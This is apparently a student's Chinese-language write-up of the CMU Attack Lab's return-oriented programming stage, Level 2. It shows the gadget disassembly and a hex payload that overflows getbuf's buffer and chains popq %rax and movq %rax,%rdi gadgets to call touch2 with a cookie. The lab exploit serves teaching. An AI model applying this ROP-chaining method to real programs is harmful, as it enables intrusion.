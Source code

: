 ### Lv.1

同Part.1 Lv.1

### Lv.2

目标是从getbuf返回到touch2(`0x4017ec`)，并传递cookie作为参数。

为了传递参数，需要通过寄存器%rdi。在farm中查找相关gadget。

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

提取其中的代码，地址`0x4019c5`有如下代码：

```asm
4019c5:
  movq %rax %rdi # 48 89 c7
  nop            # 90
  ret            # c3
```

于是我们还需要将cookie放进寄存器%rax。查找farm发现：

```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
```

在`0x4019cc`处有如下代码：

```asm
4019cc:
  popq %rax # 58
  nop       # 90
  ret       # c3
```

所以我们应该将cookie放置在payload中的合适位置，使其被popq指令从栈弹出到%rax中。

构造payload如下：

```
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20 /* 填充缓冲区 */
cc 19 40 00 00 00 00 00 /* 从getbuf返回到0x4019cc，将栈上的cookie弹出到%rax */
fa 97 b9 59 00 00 00 00 /* cookie，供popq弹出到%rax */
c5 19 40 00 00 00 00 00 /* 返回到0x4019c5 cookie传送到%rdi中作为param1 */
ec 17 40 00 00 00 00 00 /* 返回到touch2(0x4017ec)，则cookie为其第一个参数 */
```
